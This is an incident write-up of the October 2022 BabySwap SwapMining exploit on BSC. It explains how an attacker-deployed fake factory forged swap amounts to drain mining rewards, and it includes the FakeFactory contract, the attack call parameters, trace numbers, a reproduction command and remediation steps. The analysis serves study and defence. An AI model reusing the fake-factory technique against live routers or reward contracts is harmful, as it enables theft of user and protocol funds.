



# BabySwap `SwapMining` Exploit — Router-Reported Swap Volume Forged via a Fake Factory

> **Vulnerability classes:** vuln/oracle/price-manipulation · vuln/logic/missing-validation · vuln/logic/price-calculation

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo
> contains several unrelated PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [contracts_farm_SwapMining.sol](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol)
> and the aggregation router [contracts_router_BabySmartRouter.sol](sources/BabySmartRouter_8317c4/contracts_router_BabySmartRouter.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **24,245.02 USDT** (≈ $24.2K) — the BABY mining reward, cashed out into USDT |
| **Vulnerable contract** | `SwapMining` — [`0x5c9f1A9CeD41cCC5DcecDa5AFC317b72f1e49636`](https://bscscan.com/address/0x5c9f1A9CeD41cCC5DcecDa5AFC317b72f1e49636#code) |
| **Enabling contract** | `BabySmartRouter` (aggregation router) — [`0x8317c460C22A9958c27b4B6403b98d2Ef4E2ad32`](https://bscscan.com/address/0x8317c460C22A9958c27b4B6403b98d2Ef4E2ad32) |
| **Reward token drained** | `BABY` — `0x53E562b9B7E5E94b81f10e96Ee70Ad06df3D2657` (1,024,193.50 BABY) |
| **Cashout pool** | BABY/USDT BabySwap pair — `0xE730C7B7470447AD4886c763247012DfD233bAfF` |
| **Attacker EOA** | `0x0000000038b8889b6ab9790e20FC16fdC5714922` |
| **Attacker contract** | [`0xde7e741bd9dc7209b56f1ef3b663efb288c928d4`](https://bscscan.com/address/0xde7e741bd9dc7209b56f1ef3b663efb288c928d4) |
| **Attack tx** | [`0xcca7ea9d48e00e7e32e5d005b57ec3cac28bc3ad0181e4ca208832e62aa52efe`](https://bscscan.com/tx/0xcca7ea9d48e00e7e32e5d005b57ec3cac28bc3ad0181e4ca208832e62aa52efe) |
| **Chain / block / date** | BSC / forked at 21,811,979 / Oct 1, 2022 |
| **Compiler** | `SwapMining` v0.7.4 (optimizer, 200 runs); router v0.7.x |
| **Bug class** | Trusted-input integrity — privileged callee (`SwapMining`) trusts an attacker-controllable `amount` reported by the router, enabling forged swap-volume → unbounded liquidity-mining rewards |

---

## TL;DR

BabySwap's `BabySmartRouter` is an **aggregation router**: the caller passes in their own list of
`factories`, and the router fetches reserves and computes the output amount from *whatever factory
address the caller supplies* ([BabySmartRouter.sol:89-105](sources/BabySmartRouter_8317c4/contracts_router_BabySmartRouter.sol#L89-L105),
[BabyLibrarySmartRouter.sol:90-99](sources/BabySmartRouter_8317c4/contracts_libraries_BabyLibrarySmartRouter.sol#L90-L99)).
On every swap the router also reports that computed output amount to the liquidity-mining contract:

```solidity
ISwapMining(swapMining).swap(msg.sender, input, output, amountOut);
```

`SwapMining.swap()` **trusts that `amount` blindly** ([SwapMining.sol:236-269](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol#L236-L269))
— it converts it to a USD-denominated "quantity" via `getQuantity()` and credits the caller's mining
position by exactly that quantity. It never re-derives the amount from the *real* BabySwap reserves,
and it never verifies the swap actually moved real value.

The attacker deploys a **`FakeFactory`** that returns `getReserves() = (1e28, 1)` and a `getPair()`
pointing at itself ([test/BabySwap_exp.sol:35-60](test/BabySwap_exp.sol#L35-L60)). Routing a trivial
**10,000-wei** WBNB swap through this fake factory makes the router compute an output amount of
**9,999,000,099,990,000,999,900,009,999** (`9.999e27`) — verified to the wei against the trace. The
router faithfully forwards that astronomical number to `SwapMining.swap()`, which credits the attacker
with mining "volume" worth `9.999e27`. Two such fake swaps (one crediting against the USDT anchor, one
against BABY) accrue enough rewards that a single `takerWithdraw()` pays out **1,024,193.50 BABY**,
which the attacker sells for **24,245.02 USDT**. Total real cost: **20,000 wei of WBNB** (which is even
returned by the fake pair).

---

## Background — how BabySwap liquidity mining works

`SwapMining` ([source](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol)) is a MasterChef-style
"trade-to-earn" contract. Instead of staking LP tokens, users earn `BABY` simply by *trading* through
the official router. The intended flow:

- A user swaps through `BabySmartRouter`.
- For every hop, the router calls `SwapMining.swap(account, input, output, amountOut)` to record that
  `account` just traded `amountOut` of `output`.
- `SwapMining` converts the output amount to a USD-equivalent "quantity" (`getQuantity`,
  [:271-289](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol#L271-L289)) and adds it to the
  user's accrued position for the corresponding pool.
- Over time, `BABY` is minted/allocated to pools per block (`babyPerBlock`), and each user's share of a
  pool's rewards is proportional to their accrued `quantity`.
- `takerWithdraw()` ([:292-314](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol#L292-L314))
  pays out the accrued `BABY`.

The whole reward is keyed off **how much you traded**. The only thing that protects the reward budget
is the assumption that *trade size cannot be faked* — and that assumption is broken by the aggregation
router.

The relevant on-chain configuration at the fork block (recovered from the trace):

| Parameter | Value |
|---|---|
| `router` (only allowed caller of `swap`) | `BabySmartRouter` `0x8317…ad32` |
| `targetToken` (USD anchor) | `USDT` `0x55d3…7955` |
| Whitelisted mining tokens | include `WBNB`, `USDT`, `BABY` |
| `SwapMining` BABY balance (reward budget) | ≥ 1,024,193.50 BABY |
| Real BABY/USDT pair reserves | `26,548,588 BABY / 654,602 USDT` ([trace L121](output.txt#L121)) |

---

## The vulnerable code

### 1. `SwapMining.swap()` trusts the router-reported `amount`

```solidity
// swapMining only router
function swap(address account, address input, address output, uint256 amount) public onlyRouter returns (bool) {
    require(account != address(0), "...");
    require(input != address(0), "...");
    require(output != address(0), "...");

    if (poolLength() <= 0) { return false; }
    if (!isWhitelist(input) || !isWhitelist(output)) { return false; }

    address pair = BabyLibrary.pairFor(address(factory), input, output);   // ← REAL factory
    PoolInfo storage pool = poolInfo[pairOfPid[pair]];
    if (pool.pair != pair || pool.allocPoint <= 0) { return false; }

    uint256 quantity = getQuantity(output, amount, targetToken);           // ← uses caller's `amount`
    if (quantity <= 0) { return false; }

    mint(pairOfPid[pair]);
    pool.quantity      = pool.quantity.add(quantity);
    pool.totalQuantity = pool.totalQuantity.add(quantity);
    UserInfo storage user = userInfo[pairOfPid[pair]][account];
    user.quantity   = user.quantity.add(quantity);                          // ← attacker credited
    user.blockNumber = block.number;
    return true;
}
```

[SwapMining.sol:236-269](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol#L236-L269)

The `onlyRouter` modifier is the *only* gate, and it merely checks `msg.sender == router`. It does **not**
validate that the `amount` corresponds to a real movement of `output` tokens. The `amount` is taken at
face value and fed straight into reward accounting.

Note the asymmetry that makes the exploit so clean: `SwapMining` looks up the *pool* using its own
**real** `factory` ([:249](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol#L249)), so the WBNB/USDT
and WBNB/BABY pools it credits are the legitimate ones — but the `amount` it credits them with comes from
the **fake** factory the attacker handed the router.

### 2. `getQuantity()` converts the forged amount to USD-equivalent reward weight

```solidity
function getQuantity(address outputToken, uint256 outputAmount, address anchorToken) public view returns (uint256) {
    uint256 quantity = 0;
    if (outputToken == anchorToken) {
        quantity = outputAmount;                                            // ← USDT path: 1:1
    } else if (IBabyFactory(factory).getPair(outputToken, anchorToken) != address(0)) {
        quantity = IOracle(oracle).consult(outputToken, outputAmount, anchorToken);  // ← BABY path
    } else { ... }
    return quantity;
}
```

[SwapMining.sol:271-289](sources/SwapMining_5c9f1A/contracts_farm_SwapMining.sol#L271-L289)

- In the attacker's **first** fake swap, `output = USDT = targetToken`, so `quantity = outputAmount =
  9.999e27` directly — no oracle needed. (In [trace L69-77](output.txt#L69-L77) the `SWAP_MINING::swap`
  call makes zero external calls and just writes storage.)
- In the **second** fake swap, `output = BABY ≠ targetToken`, so `getQuantity` consults the TWAP oracle
  on the *real* BABY/USDT pair, turning the forged `9.999e27` BABY into a USD-equivalent quantity of
  `0xcbf7…9e3 ≈ 6.16e25` ([trace L113-122](output.txt#L113-L122)). Still enormous.

### 3. The aggregation router computes `amountOut` from a caller-supplied factory

```solidity
function swapExactTokensForTokens(
    uint amountIn, uint amountOutMin,
    address[] memory path,
    address[] memory factories,         // ← CALLER SUPPLIES THE FACTORIES
    uint[] memory fees,
    address to, uint deadline
) external ... returns (uint[] memory amounts) {
    amounts = BabyLibrarySmartRouter.getAggregationAmountsOut(factories, fees, amountIn, path);
    require(amounts[amounts.length - 1] >= amountOutMin, '...');
    amounts[0] = routerFee(factories[0], msg.sender, path[0], amounts[0]);
    TransferHelper.safeTransferFrom(path[0], msg.sender, pairFor(factories[0], path[0], path[1]), amounts[0]);
    _swap(amounts, path, factories, to);
}
```

[BabySmartRouter.sol:89-105](sources/BabySmartRouter_8317c4/contracts_router_BabySmartRouter.sol#L89-L105)

`_swap` is where the forged amount is reported to mining:

```solidity
function _swap(uint[] memory amounts, address[] memory path, address[] memory factories, address _to) internal {
    for (uint i; i < path.length - 1; i++) {
        (address input, address output) = (path[i], path[i + 1]);
        ...
        uint amountOut = amounts[i + 1];                                    // ← from fake factory
        if (swapMining != address(0)) {
            ISwapMining(swapMining).swap(msg.sender, input, output, amountOut);  // ← FORGED amount forwarded
        }
        ...
        IBabyPair(pairFor(factories[i], input, output)).swap(amount0Out, amount1Out, to, new bytes(0));  // ← fake pair
    }
}
```

[BabySmartRouter.sol:64-87](sources/BabySmartRouter_8317c4/contracts_router_BabySmartRouter.sol#L64-L87)

And the reserves used to compute `amountOut` come from `getReserves(factories[i], ...)`, i.e. a plain
external call into the attacker's factory:

```solidity
function getAggregationAmountsOut(address[] memory factories, uint[] memory fees, uint amountIn, address[] memory path)
    internal view returns (uint[] memory amounts) {
    ...
    for (uint i; i < path.length - 1; i++) {
        (uint reserveIn, uint reserveOut) = getReserves(factories[i], path[i], path[i + 1]);  // ← fake reserves
        amounts[i + 1] = getAmountOutWithFee(amounts[i], reserveIn, reserveOut, fees[i]);
    }
}
```

[BabyLibrarySmartRouter.sol:90-99](sources/BabySmartRouter_8317c4/contracts_libraries_BabyLibrarySmartRouter.sol#L90-L99)

### 4. The attacker's `FakeFactory`

```solidity
contract FakeFactory {
    function getPair(address, address) external view returns (address pair) { pair = address(this); }
    function getReserves() external pure returns (uint112 reserve0, uint112 reserve1, uint32) {
        reserve0 = 10_000_000_000 * 1e18;   // 1e28
        reserve1 = 1;
    }
    function swap(uint, uint, address, bytes calldata) external {
        // return the dust WBNB the router just sent in, so even the 10k-wei cost is recovered
        if (WBNB_TOKEN.balanceOf(address(this)) > 0) WBNB_TOKEN.transfer(Owner, WBNB_TOKEN.balanceOf(address(this)));
    }
}
```

[test/BabySwap_exp.sol:35-60](test/BabySwap_exp.sol#L35-L60)

`getReserves()` returns `reserveIn = 1` for the input side and `reserveOut = 1e28` for the output side.
Feeding `amountIn = 10000`, `fee = 0` into `getAmountOutWithFee`:

```
amountInWithFee = 10000 * (1_000_000 - 0)            = 1e10
numerator       = 1e10 * 1e28                         = 1e38
denominator     = 1 * 1_000_000 + 1e10               ≈ 1.00001e10
amountOut       = 1e38 / 1.00001e10                  = 9_999_000_099_990_000_999_900_009_999
```

This matches the trace value `9999000099990000999900009999` **exactly to the wei**
([trace L69](output.txt#L69)).

---

## Root cause — why it was possible

The exploit is a textbook **trust-boundary violation between two contracts that should not trust each
other's inputs**, made exploitable by a router that delegates reserve/price computation to caller-chosen
contracts.

1. **`SwapMining.swap()` accepts an unverified `amount`.** The reward weight is derived from a number
   that the privileged caller (router) merely *relays* from untrusted aggregation inputs. `SwapMining`
   never independently re-derives the traded amount from its own real `factory` reserves, never checks
   that real `output` tokens actually moved, and never bounds the credited quantity against the pool's
   real liquidity. The single `onlyRouter` check authenticates the *messenger*, not the *message*.

2. **The aggregation router computes `amountOut` from caller-supplied factories.** `swapExactTokensForTokens`
   takes a `factories[]` array straight from the caller and calls `getReserves()` /`getPair()` on those
   addresses with no whitelist. Any contract that implements the two-function `getPair`/`getReserves`
   interface is accepted, so the attacker fully controls the "price" the router computes — and therefore
   the `amount` the router reports to mining.

3. **The reported amount and the real settlement are decoupled.** The router calls
   `ISwapMining.swap(..., amountOut)` *before* (and independently of) the actual pair `swap()`. Because
   the pair is also the attacker's fake contract, no real tokens need to move; the mining credit is
   accrued purely from arithmetic on fabricated reserves. The `amountOutMin` slippage check is satisfied
   trivially because the attacker passes `amountOutMin = 0`.

4. **Reward weight scales linearly and unboundedly with the reported amount.** For the USDT anchor,
   `getQuantity` returns `amount` 1:1; for BABY it returns an oracle-scaled multiple. Neither path caps
   the contribution against the pool's real `quantity` or the contract's actual reward budget, so a
   single fake swap can dwarf all honest traders combined.

In short: a contract that disburses real value based on a *self-reported* trade size, where the trade
size is computable by the attacker, is giving the attacker a mint function. The fix that actually
closes it is to make `SwapMining` reconstruct the traded amount from its own trusted reserves (or to
verify a real balance delta) rather than trusting the router's relayed number — and, secondarily, to
stop the router from honoring arbitrary caller-supplied factories.

---

## Preconditions

- The aggregation router (`BabySmartRouter`) is the registered `router` in `SwapMining`, and it forwards
  the caller-influenced `amountOut` to `SwapMining.swap()`. (True on-chain at the time.)
- `input` and `output` are both whitelisted mining tokens and map to a pool with `allocPoint > 0`
  (WBNB, USDT, BABY all qualified).
- `SwapMining` holds enough `BABY` to pay the inflated reward (it held > 1.02M BABY).
- A liquid real BABY/USDT pair exists to cash out the BABY reward (the
  `0xE730…BaFF` pair held `26.5M BABY / 654.6k USDT`).
- Working capital: **20,000 wei of WBNB** — and even that is returned by the fake pair, so the attack is
  effectively free of capital risk.

No flash loan, no governance, no privileged role. The only "capability" required is the ability to
deploy a 2-function contract and call a public router — i.e. **permissionless**.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). The attacker contract is the
`ContractTest` address in the trace (`0x7FA9…1496`).

| # | Step | Trace | Effect |
|---|------|-------|--------|
| 0 | **Setup** — deposit 20,000 wei into WBNB, `approve(router, max)` for WBNB and BABY, deploy `FakeFactory` | [L33-51](output.txt#L33-L51) | Attacker holds 20,000 wei WBNB; fake factory live at `0x5615…b72f`. |
| 1 | **Fake swap #1** — `swapExactTokensForTokens(10000, 0, [WBNB,USDT], [FakeFactory], [0], self, ...)` | [L52-92](output.txt#L52-L92) | Router reads fake reserves `(1e28, 1)`, computes `amountOut = 9.999e27`, forwards it to `SwapMining.swap(self, WBNB, USDT, 9.999e27)`. Because `USDT == targetToken`, `quantity = 9.999e27` credited 1:1. Fake pair returns the 10,000 wei WBNB. |
| 2 | **Fake swap #2** — `swapExactTokensForTokens(10000, 0, [WBNB,BABY], [FakeFactory], [0], self, ...)` | [L93-145](output.txt#L93-L145) | Same forged `amountOut = 9.999e27` forwarded as `SwapMining.swap(self, WBNB, BABY, 9.999e27)`. `BABY ≠ targetToken`, so the oracle consults the *real* BABY/USDT pair and credits a USD-equivalent quantity `≈ 6.16e25`. Fake pair again returns the 10,000 wei. |
| 3 | **`takerWithdraw()`** — claim accrued BABY rewards | [L146-162](output.txt#L146-L162) | `SwapMining` transfers **1,024,193.50 BABY** (`0xf5b1bba9` console log = `1024193504457067137940197`) to the attacker. |
| 4 | **Cash out** — `swapExactTokensForTokens(1,024,193.50 BABY, 0, [BABY,USDT], [BABYSWAP_FACTORY], [3000], self, ...)` via the *real* factory | [L165-221](output.txt#L165-L221) | Router pays a 0.1% router fee (1,024.19 BABY to fee receiver), then swaps 1,023,169.31 BABY through the real BABY/USDT pair → **24,245.02 USDT** out. |
| 5 | **Result** | [L222-224](output.txt#L222-L224) | Attacker USDT balance: `0 → 24,245.023699947778854742`. |

A subtle confirmation of the bug's nature: in step 4 the attacker swaps the looted BABY through the
**real** BabySwap factory (`0x8640…89Da`), and that swap *also* calls `SwapMining.swap(self, BABY, USDT,
24,245e18)` ([L192-200](output.txt#L192-L200)) — this time with a *legitimate* amount derived from real
reserves. That honest call credits a comparatively tiny quantity (`0x522…f56 ≈ 2.4e22`), neatly
illustrating how minuscule a normal trade's reward weight is next to the `9.999e27` forged in steps 1-2.

### Reward weight: forged vs. honest

| Source | `output` | reported `amount` | resulting `quantity` |
|---|---|---:|---:|
| Fake swap #1 (USDT anchor) | USDT | 9.999e27 | 9.999e27 (1:1) |
| Fake swap #2 (BABY → oracle) | BABY | 9.999e27 | ≈ 6.16e25 |
| Honest cash-out swap (step 4) | USDT | 2.4245e22 | ≈ 2.4e22 |

The two forged credits are **5-6 orders of magnitude** larger than what a genuine ~24k-USDT trade earns.

---

## Profit / loss accounting

| Item | Amount |
|---|---:|
| WBNB deposited (working capital) | 20,000 wei (returned by fake pair) |
| Real WBNB spent | **≈ 0** (10,000 wei in, 10,000 wei out, per fake swap) |
| BABY looted from `SwapMining` via `takerWithdraw()` | **1,024,193.50 BABY** |
| Router fee paid on cash-out (0.1%) | 1,024.19 BABY |
| BABY actually sold | 1,023,169.31 BABY |
| **USDT received** | **24,245.02 USDT** |
| **Net profit** | **≈ 24,245 USDT** |

The loss is borne by the `SwapMining` reward treasury (1.02M BABY drained) and ultimately by honest
BABY holders / LPs through dilution and the sell pressure of the dumped reward.

---

## Diagrams

### Sequence of the attack



### Where the forged amount flows (data-trust view)



### Trusted vs. untrusted inputs inside one swap



---

## Why each magic number

- **`reserveOut = 1e28`, `reserveIn = 1`:** chosen so the AMM formula `out = inWithFee·reserveOut /
  (reserveIn·FEE_BASE + inWithFee)` collapses to ≈ `reserveOut` for any small input — a single tiny
  `amountIn` extracts almost the entire fake `reserveOut`. With `reserveIn = 1`, the denominator is
  dominated by `inWithFee`, giving `out ≈ reserveOut` scaled by `inWithFee/(inWithFee+FEE_BASE) ≈ 1`.
- **`fee = 0`:** removes the router's fee deduction so the computed `amountOut` is as large as possible.
- **`amountIn = 10,000 wei`:** large enough that `getAmountOutWithFee` doesn't round to zero, small
  enough to be trivially recoverable. The fake pair just transfers it back, so net WBNB cost is ~0.
- **Two swaps (USDT then BABY):** crediting against *both* the USDT anchor (1:1) and the BABY pool
  (oracle-scaled) maximizes total accrued reward across the pools that hold BABY budget.
- **`amountOutMin = 0`:** disables the router's slippage guard, which would otherwise be the only check
  that could notice the "swap" returned nothing real.

---

## Remediation

1. **Do not trust router-reported swap amounts in `SwapMining`.** The mining contract must reconstruct the
   credited amount from its *own* trusted state — e.g. read the canonical pair's reserves through the
   real `factory` and compute the output itself, or verify a real `balanceOf` delta of `output` for the
   pair — instead of accepting the `amount` argument at face value. The reward weight should be a
   function of *settled* value, never of a number the caller can influence.
2. **Reject arbitrary factories in the aggregation router.** `swapExactTokensForTokens` and friends must
   whitelist the `factories[]` entries (or derive pairs only from the canonical factory). Allowing
   `getReserves()`/`getPair()` to be served by a caller-deployed contract lets the attacker dictate the
   router's arithmetic.
3. **Couple the mining credit to the real settlement.** Report to `SwapMining` only *after* the real pair
   `swap()` succeeds, and credit the *actual measured* output (balance delta), not the pre-computed
   `amountOut`. This also defeats the "fake pair returns nothing" trick.
4. **Bound per-swap reward contribution.** Cap the `quantity` a single swap can add (e.g. against the
   pool's real reserves or a sane per-tx ceiling) so that even a mispriced input cannot mint an
   unbounded reward share.
5. **Use a manipulation-resistant price source for `getQuantity`.** Where an oracle is used, ensure it
   cannot be driven by the same transaction that claims the reward, and that anchor-token (1:1) paths
   still pass through value validation rather than blindly trusting `amount`.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has several
unrelated PoCs that fail to compile under a whole-project `forge build`):

```bash
_shared/run_poc.sh 2022-10-BabySwap_exp -vvvvv
```

- RPC: a **BSC archive** endpoint is required (the fork pins block 21,811,979 from Oct 2022). Most public
  BSC RPCs prune state that old and fail with `header not found` / `missing trie node`; `foundry.toml`
  is configured with an archive endpoint that serves historical state at this block.
- Result: `[PASS] testExploit()`, attacker USDT balance goes from `0` to `24,245.02`.

Expected tail:

```
Ran 1 test for test/BabySwap_exp.sol:ContractTest
[PASS] testExploit() (gas: 1302990)
Logs:
  [Start] Attacker USDT balance before exploit: 0.000000000000000000
  [End] Attacker USDT balance before exploit: 24245.023699947778854742

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: BlockSec analysis — https://twitter.com/BlockSecTeam/status/1576441612812836865 (BabySwap SwapMining, BSC, ~$24K).*
